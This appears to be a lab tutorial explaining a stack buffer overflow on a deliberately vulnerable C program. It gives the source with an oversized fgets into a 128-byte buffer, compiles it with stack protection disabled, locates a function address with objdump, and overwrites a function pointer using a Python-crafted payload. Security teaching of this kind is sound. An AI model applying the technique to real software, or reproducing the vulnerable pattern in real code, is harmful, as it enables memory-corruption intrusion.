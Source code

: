 # Buffer Overflow Attack on `bof3.c`

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

void shell()
{
    printf("You made it! The shell() function is executed\n");
}

void sup()
{
    printf("Congrat!\n");
}

void main()
{
    int var;
    void (*func)() = sup;
    char buf[128];
    fgets(buf, 133, stdin);
    func();
}
```

This program has a vulnerability similar to the previous example in `bof2.c`. Although it uses `fgets()` to limit input size, the input limit (133 characters) exceeds the size of the `buf[128]` buffer, making it vulnerable to a buffer overflow attack.

The target is to exploit this vulnerability by modifying the `func` pointer, which initially points to the `sup()` function, to instead point to the `shell()` function.

## Compiling the Program

As with previous examples ([bof1.c](./bof1.md) and [bof2.c](./bof2.md)), we compile the source code using `-fno-stack-protector` to disable the stack protector, which prevents stack overflows from being detected at runtime.

```bash
gcc -g bof3.c -o bof3.o -fno-stack-protector -mpreferred-stack-boundary=2
```

A new executable file, `bof3.o`, is created.

## Stack Frame of `main()` Function

Here’s the stack frame in the `main()` function, with `buf[128]` and the function pointer `func`:

![main() stack frame](../img/bof3/stackframe.png)

## Finding the Address of the `shell()` Function

In order to redirect execution to `shell()`, we first need to find its address. We can do this using the `objdump` command.

```bash
objdump -d bof3.o | grep shell
```

### Result

![address of shell()](../img/bof3/objdump.png)
The address of the `shell()` function is `0x0804845b`. We will input this address in reverse order as `5b 84 04 08` (Little Endian format).

After our attack, the stack frame will look like this:

![new stack frame](../img/bof3/new_stackframe.png)

The value of the function pointer `*func` should now be `0x0804845b`, pointing to `shell()`.

## Crafting the Input for the Attack

To exploit this vulnerability, we need to:

1. Fill the buffer `buf[128]` with 128 characters.
2. Overwrite the address stored in `*func` with the address of `shell()` (`0x0804845b`).

We can use Python to craft the input:

```bash
echo $(python -c "print('a' * 128 + '\x5b\x84\x04\x08')")
```

### Explanation:

-   `'a' * 128`: Fills the `buf[128]` buffer.
-   `'\x5b\x84\x04\x08'`: The Little Endian representation of the `shell()` function's address, overwriting the `func` pointer.

### Injecting the Payload

We will pipe the crafted input into the program:

```bash
echo $(python -c "print('a' * 128 + '\x5b\x84\x04\x08')") | ./bof3.o
```

### Result:

![Result](../img/bof3/result.png)

The message confirms that we successfully redirected execution to the `shell()` function, demonstrating a successful buffer overflow attack.
